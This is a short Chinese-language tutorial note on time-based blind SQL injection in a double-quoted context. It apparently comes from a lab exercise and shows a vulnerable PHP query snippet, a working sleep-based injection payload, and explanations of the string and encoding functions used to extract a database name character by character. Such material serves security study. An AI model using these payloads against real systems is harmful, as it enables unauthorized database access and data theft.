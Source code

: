 基于时间的双引号盲注

vul

```
$id=$_GET['id'];
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

bypass

```
?id=1" and if(ascii(substr(database(),1,1))>1,sleep(5),sleep(1)) --+
```

#### 盲注截取函数

mid()

```
mid(column_name,start,length)
column_nmae:需要提取的字符字段
start:规定开始的位置
length:要返回的字段数
mid(database(),1,1)>'a':查看数据库名的第一位
```

substr () 与 substring ()

```
substr()和substring()函数实现的功能是一样的
string substring(string,start,length)
string substr(string,start,length)
参数描述同mid参数,第一个为要处理的字符串,start为开始位置,length为截取的长度
```

left()

```
left()得到字符串左部指定个数的字符串
left(string,n)
string为要截取的字符串,n为长度
```

#### 编码函数

ord()

```
返回第一个字符的ascii码
判断database()的第一位ascii码是否大于114：
ord(mid(database(),1,1))>114
```

ascii()

```
将某个字符转换为 ascii 值
```


